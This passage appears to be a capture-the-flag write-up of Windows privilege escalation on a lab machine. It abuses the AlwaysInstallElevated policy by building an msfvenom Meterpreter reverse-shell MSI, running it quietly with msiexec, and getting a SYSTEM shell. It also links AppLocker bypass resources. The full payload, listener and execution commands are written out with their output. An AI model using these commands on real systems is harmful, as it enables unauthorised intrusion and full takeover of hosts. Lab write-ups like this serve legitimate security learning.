reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

```

It is enabled for Local User and Machine as well. I have had the failed attempt of obtaining the SYSTEM flag using some of the following ways mentioned in the URL below

[AppLocker Bypass using Alternate Data Stream](https://juggernaut-sec.com/applocker-bypass/)

[Ultimate AppLocker Bypass GitHub](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

[A Small Discovery about AppLocker](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

[AppLocker - Putting Data in the Alternate Data Stream AppLocker](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

Following to that I generate the `msfvenom` payload using the following command and started the meterpreter listener.
```
# msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4321 -e x64/shikata_ga_nai -f msi -o payload.msi
[-] Skipping invalid encoder x64/shikata_ga_nai
[!] Couldn't find encoder to use
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: payload.msi

# msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 10.10.14.4;set LPORT 4321;exploit;"   
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
LHOST => 10.10.14.4
LPORT => 4321
[*] Started reverse TCP handler on 10.10.14.4:4321

```

Running the Following command with the User Privilege Shell, I got the Meterpreter Session with a SYSTEM Shell.
```
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System>msiexec /quiet /qn /i payload.msi
msiexec /quiet /qn /i payload.msi

```

On the Meterpreter Side,
```
[*] Sending stage (201798 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.4:4321 -> 10.10.10.239:57796) at 2024-08-30 00:57:50 -0400

meterpreter > shell
Process 5560 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

```

Get Your Root Flag